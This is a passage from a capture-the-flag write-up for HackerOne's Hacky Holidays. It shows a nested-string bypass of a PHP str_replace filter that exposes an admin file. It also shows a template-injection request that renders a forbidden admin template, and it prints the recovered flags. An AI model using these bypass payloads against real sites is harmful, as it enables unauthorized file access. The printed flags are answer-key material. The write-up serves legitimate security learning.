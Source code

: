The first preg_replace() function does to prevent from reading local file so we might skip this part.

    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);

As it said, the above str_replace() function protect from being read "admin.php" but we can simply bypass this by tricking like

>>?template=admadmin.phpin.php

{F1131259}

but  our flag is in "secretadmin.php" so we can simply use to bypass the same way above using the payload

>>https://hackyholidays.h1ctf.com/my-diary/?template=secretadsecretadminadmin.php.phpmin.php

And we got the flag!!

{F1131252}

>>Flag 6 -: flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}

**Day 7 - Hate Mail Generator**

https://hackyholidays.h1ctf.com/hate-mail-generator

By looking sample campaign, I got know that we can use template to create campaign but generating new campaign causing error but we can use preview.

```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
......
preview_markup=Hello,{{name}}&preview_data={"name":"Alice","email":"alice@test.com"}
```
And we got the response

```
Hello, Alice
```
I tried normal template injection payload and didn't work then I noticed that we could use to render the .html file using {template:cbdj3_grinch_header.html}

At this time, I run dirsearch and found this template folder https://hackyholidays.h1ctf.com/hate-mail-generator/templates/

{F1131261}

As we can see, the 38dhs_admins_only_header.html file is interesting but it give response 403.But what if we can render this file using above
template markup.I tried to render this page like this 
```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
......
preview_markup=Hello,{{name}}&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```
And we got the flag straightforward
